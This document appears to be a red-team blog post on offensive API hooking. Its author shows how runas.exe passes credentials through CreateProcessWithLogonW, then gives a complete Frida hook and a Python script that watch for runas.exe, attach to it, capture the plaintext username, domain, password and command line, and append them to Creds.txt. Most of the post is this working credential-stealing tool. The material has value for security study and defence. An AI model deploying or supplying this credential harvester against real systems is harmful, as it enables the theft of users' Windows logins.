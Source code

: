 ```yaml
---
title: Offensive API Hooking
author: Ilan Kalendarov
date: 2021-02-10 14:10:00 +0800
categories: [Red Team]
tags: [persistence, av evasion]

---
```


## Introduction

Hooking is not a new concept as we know by now, many AV/EDR vendors use this technique to monitor suspicious API calls. In this blog post we'll explorer API hooking but in the offensive point of view. We'll use API Monitor to investigate which API calls used by each program  then, using Frida and python to build our final hooking script. This post is inspired by the Red Teaming Experiments [blog post.](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/instrumenting-windows-apis-with-frida )



## API Monitor

Api Monitor is a great tool for .. you guest it, monitoring api calls. You can find it [here](http://www.rohitab.com/downloads).

Firing up Api Monitor this will be the main screen:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/ApiMonitorHomeScreen.png)

As you can see I've chosen all of the library's options for seeing all of the API possibilities. Let's start by monitoring a new process, I'll choose runas.exe first.

According to Microsoft docs:

> It allows a user to run specific tools and programs with different permissions than the user's current logon provides.

Looks good to me as a start. So opening runas and trying to login as a different user gives us the above API call:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/RunasAPICall.png)

Great so we know that `CreateProcessWithLogonW` api call contains our secret password. Looking at the [microsoft docs](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw)

 we could see that the first and third arguments will store the username and password. Now that we have that information lets build our script !.

# Frida

According to Frida's site:

> It’s [Greasemonkey](https://addons.mozilla.org/en-US/firefox/addon/greasemonkey/) for native apps, or, put in more technical terms, it’s a dynamic code instrumentation toolkit. It lets you inject snippets of JavaScript or your own library into native apps on Windows, macOS, GNU/Linux, iOS, Android, and QNX. Frida also provides you with some simple tools built on top of the Frida API. These can be used as-is, tweaked to your needs, or serve as examples of how to use the API.

We'll be able to build a JavaScript snippet that takes the function name from the DLL library - `Advapi.dll`. The script should look like that:

```javascript
var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from the dll library

Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
	onEnter: function (args) {
		this.lpUsername = args[0];
		this.lpDomain = args[1];
		this.lpPassword = args[2];
		this.lpCommandLine = args[5];
	},
	onLeave: function (args) { // getting the plain text credentials 
		send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");

	}
});
```

Now, all left to do is to insert the JavaScript snippet to a python script, The final python script should look like that:

```python
# Wrriten by Ilan Kalendarov

from __future__ import print_function
import frida
from time import sleep
import psutil
from threading import Lock, Thread

# Locking the runas thread to prevent other threads
#interfering with our current session
lockRunas = Lock()  

def on_message_runas(message, data):
	# Executes when the user enters the password.
	# Then, open the txt file and append the data.
	print(message)
	if message['type'] == "send":
		with open("Creds.txt", "a") as f:
			f.write(message["payload"] + '\n')
		try:
			lockRunas.release()
			print("[+] released")
		except Exception:
			pass


def WaitForRunAs():
	while True:
		# Trying to find if runas is running if so, execute the "RunAs" function.
		if ("runas.exe" in (p.name() for p in psutil.process_iter())) and not lockRunas.locked():
			lockRunas.acquire() # Locking the runas thread
			print("[+] Found RunAs")
			RunAs()
			sleep(0.5)

		# If the user regret and they "ctrl+c" from runas then release the thread lock and start over.
		elif (not "runas.exe" in (p.name() for p in psutil.process_iter())) and lockRunas.locked():
			lockRunas.release()
			print("[+] Runas is dead releasing lock")
		else:
			pass
		sleep(0.5)

def RunAs():
	try:
		# Attaching to the runas process
		print("[+] Trying To Attach To Runas")
		session = frida.attach("runas.exe")
		print("[+] Attached runas!")

		# Executing the following javascript
		# We Listen to the CreateProcessWithLogonW func from Advapi32.dll to catch the username,password,domain and the executing program 		  in plain text.
		script = session.create_script("""

		var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from 		the dll library
		Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
			onEnter: function (args) {
				this.lpUsername = args[0];
				this.lpDomain = args[1];
				this.lpPassword = args[2];
				this.lpCommandLine = args[5];
			},
			onLeave: function (args) { // getting the plain text credentials 
				send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");

			}
		});

		""")

		# If we got a hit then execute the "on_message_runas" function
		script.on('message', on_message_runas)
		script.load()
	except Exception as e:
		print(str(e))

if __name__ == "__main__":
	thread = Thread(target=WaitForRunAs)
	thread.start()
```

Great ! lets try to run the script:

![](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/RunasScript.png)